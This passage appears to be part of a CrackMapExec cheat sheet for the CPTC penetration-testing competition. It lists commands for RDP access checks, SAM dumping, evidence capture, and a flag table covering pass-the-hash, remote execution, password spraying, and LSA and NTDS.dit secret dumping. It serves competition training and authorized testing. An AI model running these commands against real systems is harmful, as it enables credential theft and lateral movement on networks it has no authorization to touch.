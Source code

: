 ### RDP Protocol
```bash
# Check RDP access
crackmapexec rdp 10.10.10.0/24 -u 'administrator' -p 'Password123'

# Screenshot via RDP
crackmapexec rdp 10.10.10.50 -u 'administrator' -p 'Password123' -M rdp_screenshot
```

---

## CPTC Report Evidence Collection

```bash
# Capture all output to file
crackmapexec smb 10.10.10.0/24 -u 'admin' -p 'Pass' --sam 2>&1 | tee -a evidence_sam_dump.txt

# Screenshots of successful compromises
# Take screenshots of:
# - Initial credential validation (Pwn3d!)
# - NTDS.dit dump output
# - High-value user sessions found
# - Sensitive share access

# Export CME database for appendix
cmedb export

# Save command history
history | grep crackmapexec > cme_commands_used.txt
```

---

## Common CPTC Flags Reference

| Flag | Purpose | Example |
|------|---------|---------|
| `-u` | Username(s) | `-u 'jsmith'` or `-u users.txt` |
| `-p` | Password(s) | `-p 'Pass123!'` or `-p passwords.txt` |
| `-H` | NT hash (Pass-the-Hash) | `-H 'aad3b435b51404ee...'` |
| `-d` | Domain name | `-d CORP` |
| `-x` | Execute command (CMD) | `-x 'whoami'` |
| `-X` | Execute PowerShell | `-X 'Get-Process'` |
| `--shares` | Enumerate shares | `--shares` |
| `--sam` | Dump SAM database | `--sam` |
| `--lsa` | Dump LSA secrets | `--lsa` |
| `--ntds` | Dump NTDS.dit (DC) | `--ntds` |
| `-M` | Use module | `-M lsassy` |
| `--local-auth` | Use local auth | `--local-auth` |
| `--continue-on-success` | Don't stop on first success | Useful for spraying |
| `--gen-relay-list` | Output relay targets | `--gen-relay-list targets.txt` |

---